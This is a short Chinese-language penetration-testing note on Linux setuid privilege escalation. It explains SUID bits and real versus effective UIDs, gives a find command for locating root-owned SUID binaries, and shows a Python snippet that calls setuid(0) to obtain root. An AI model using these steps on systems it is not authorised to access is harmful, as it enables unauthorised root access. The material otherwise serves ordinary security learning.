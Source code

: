 # Linux setuid 提权

## 0x00 基础知识

### setuid是什么？
通常来说，Linux运行一个程序，是使用当前运行这个程序的用户权限，这当然是合理的。但是有一些程序比较特殊，比如我们常用的ping命令。

ping需要发送ICMP报文，而这个操作需要发送Raw Socket。在Linux 2.2引入CAPABILITIES前，使用Raw Socket是需要root权限的（当然不是说引入CAPABILITIES就不需要权限了，而是可以通过其他方法解决，这个后说），所以你如果在一些老的系统里ls -al $(which ping)，可以发现其权限是-rwsr-xr-x，其中有个s位，这就是suid：

```
ls -al /usr/bin/sudo
-rwsr-xr-x 1 root root 149080 Jan 19  2021 /usr/bin/sudo
```
suid全称是Set owner User ID up on execution。这是Linux给可执行文件的一个属性，上述情况下，普通用户之所以也可以使用ping命令，原因就在我们给ping这个可执行文件设置了suid权限。

设置了s位的程序在运行时，其Effective UID将会设置为这个程序的所有者。比如，/usr/bin/sudo这个程序的所有者是0（root），它设置了s位，那么普通用户在运行ping时其Effective UID就是0，等同于拥有了root权限。

这里引入了一个新的概念Effective UID。Linux进程在运行时有三个UID：

- Real UID 执行该进程的用户实际的UID
- Effective UID 程序实际操作时生效的UID（比如写入文件时，系统会检查这个UID是否有权限）
- Saved UID 在高权限用户降权后，保留的其原本UID（本文中不对这个UID进行深入探讨）
- 
通常情况下Effective UID和Real UID相等，所以普通用户不能写入只有UID=0号才可写的/etc/passwd；有suid的程序启动时，Effective UID就等于二进制文件的所有者，此时Real UID就可能和Effective UID不相等了。

### setuid 提权条件
1. 文件所有者是root用户
2. 具备s标志位
3. 程序执行setuid(0)后执行代码



## 0x01 漏洞利用



### 检测setuid文件
```
find / -user root -perm -4000 -print 2>/dev/null
```

### python
如果Python具备s标志位并且是root用户，真实环境几乎没有。   
执行如下：
```
import os
os.setuid(0)
os.system('whoami')
```


[简谈setuid提权](https://www.freebuf.com/articles/web/272617.html) 其中包括一些常见的应用setuid提权方法。     


## Ref

- [谈一谈Linux与suid提权](https://www.leavesongs.com/PENETRATION/linux-suid-privilege-escalation.html)
- [简谈setuid提权](https://www.freebuf.com/articles/web/272617.html) 
